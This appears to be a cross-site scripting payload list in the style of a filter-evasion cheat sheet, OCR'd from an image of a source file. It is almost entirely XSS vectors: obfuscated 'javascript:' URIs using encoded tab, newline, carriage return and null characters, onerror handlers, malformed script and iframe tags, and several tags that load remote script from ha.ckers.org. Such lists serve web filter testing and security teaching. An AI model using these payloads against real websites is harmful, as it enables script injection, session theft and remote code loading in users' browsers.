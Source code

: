 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
# obsolete form
#<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="/" onerror="jav&#x09;ascript:alert('XSS');">

# Embedded newline to break up XSS
# obsolete form
#<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">

# Embedded CR
# obsolete form
#<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC="/x" onerror="jav&#x0D;ascript:alert('XSS');">

# Null
# obsolete form
# <IMG SRC="jav%00ascript:alert('XSS');">
<IMG SRC="/x" onerror="jav%00ascript:alert('XSS');">

# Spaces and meta chars before the JavaScript in images for XSS
# obsolete form
#<IMG SRC=" &#14;  javascript:alert('XSS');">
<IMG SRC="/x" onerror=" &#14;  javascript:alert('XSS');">

# Non-alpha-non-digit XS
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

# this is bogus or obsolete
# <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

# Extraneous open brackets
<<SCRIPT>alert("XSS");//<</SCRIPT>

# No closing script tags
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >

# Protocol resolution in script tags
<SCRIPT SRC=//ha.ckers.org/.j>

# Half open HTML/JavaScript XSS vector
<IMG SRC="javascript:alert('XSS')"

# Double open angle brackets
<iframe src=http://ha.ckers.org/scriptlet.html <

# Escaping JavaScript escapes
# N/A

# End title tag
</TITLE><SCRIPT>alert("XSS");</SCRIPT>

# INPUT image
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

# BODY image
<BODY BACKGROUND="javascript:alert('XSS')">

# IMG Dynsrc
# Wildly obsolete
<IMG DYNSRC="javascript:alert('XSS')">

```